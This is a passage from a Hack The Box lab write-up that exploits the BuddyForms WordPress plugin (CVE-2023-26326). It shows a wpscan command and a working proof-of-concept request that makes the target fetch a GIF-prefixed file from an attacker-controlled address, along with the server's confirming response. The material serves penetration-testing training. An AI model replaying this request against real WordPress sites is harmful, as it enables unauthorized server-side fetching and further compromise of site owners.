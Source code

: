 There is a form available to send comments on the page. Underneath, you see a mention 

> Proudly brought to you by BuddyForms

![](/img/htb/bigbang/webapplication_buddyforms.png)


If you look at the HTTP request exchange when submitting the form, you can see this one:

`http://blog.bigbang.htb/wp-content/plugins/buddyforms/assets/js/buddyforms.js?ver=6.5.4`

Searching online for vulnerability about `buddyforms`, we find the [CVE-2023-26326](https://medium.com/tenable-techblog/wordpress-buddyforms-plugin-unauthenticated-insecure-deserialization-cve-2023-26326-3becb5575ed8).

You can also find the vulnerable plugin with `wpscan`

`wpscan --url http://blog.bigbang.htb --enumerate --api-token [REDACTED] --plugins-detection mixed`

First POC is done by testing with the following example.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: blog.bigbang.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://blog.bigbang.htb/
Priority: u=2
Content-type: application/x-www-form-urlencoded
Content-Length: 74

action=upload_image_from_url&url=http://10.10.14.6/image&id=1&accepted_files=image/gif
```

On our website, `image` is actually a file with `GIF89a` (mime type of GIF) at the beginning. `echo "GIF89aBrainmyman" > image`

You will be able to confirm that the file actually was fetched by the web application with the response and the content of the file while retrieving it. 

Response from the previous request
```http
HTTP/1.1 200 OK
Date: Sun, 04 May 2025 16:02:47 GMT
Server: Apache/2.4.62 (Debian)
X-Powered-By: PHP/8.3.2
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
Referrer-Policy: strict-origin-when-cross-origin
X-Frame-Options: SAMEORIGIN
Vary: Accept-Encoding
Content-Length: 112
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/05\/1.png","attachment_id":155}
```
